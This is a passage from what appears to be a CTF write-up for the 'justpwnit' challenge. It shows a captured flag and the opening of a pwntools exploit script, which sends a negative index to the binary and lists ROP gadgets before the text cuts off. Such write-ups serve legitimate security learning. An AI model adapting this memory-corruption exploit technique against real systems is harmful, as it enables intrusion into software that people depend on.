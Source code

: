 ```  
$ cat flag-69a1f60d8055c88ea27fed1ab926b2b6.txt  
ASIS{p01nt_RSP_2_h34p!_RHP_1n5t34d_0f_RSP?}  
```

## Full exploit

```py  
#!/usr/bin/env python  
# -*- coding: utf-8 -*-

# this exploit was generated via  
# 1) pwntools  
# 2) ctfinit

import os  
import time  
import pwn

# Set up pwntools for the correct architecture  
exe  = pwn.context.binary = pwn.ELF('justpwnit')  
pwn.context.delete_corefiles = True  
pwn.context.rename_corefiles = False

host = pwn.args.HOST  
port = int(pwn.args.PORT or 1337)

def local(argv=[], *a, **kw):  
   '''Execute the target binary locally'''  
   if pwn.args.GDB:  
       return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)  
   else:  
       return pwn.process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):  
   '''Connect to the process on the remote host'''  
   io = pwn.connect(host, port)  
   if pwn.args.GDB:  
       pwn.gdb.attach(io, gdbscript=gdbscript)  
   return io

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
   if pwn.args.LOCAL:  
       return local(argv, *a, **kw)  
   else:  
       return remote(argv, *a, **kw)  
gdbscript = '''  
source
/media/nasm/7044d811-e1cd-4997-97d5-c08072ce9497/Downloads/pwndbg/gdbinit.py  
set follow-fork-mode parent  
b* main  
continue  
'''.format(**locals())

#===========================================================  
#                    EXPLOIT GOES HERE  
#===========================================================

io = start()  
io.sendlineafter(b"Index: ", b"-2")

# 0x0000000000406c32 : mov qword ptr [rax], rsi ; ret  
# 0x0000000000401001 : pop rax ; ret  
```
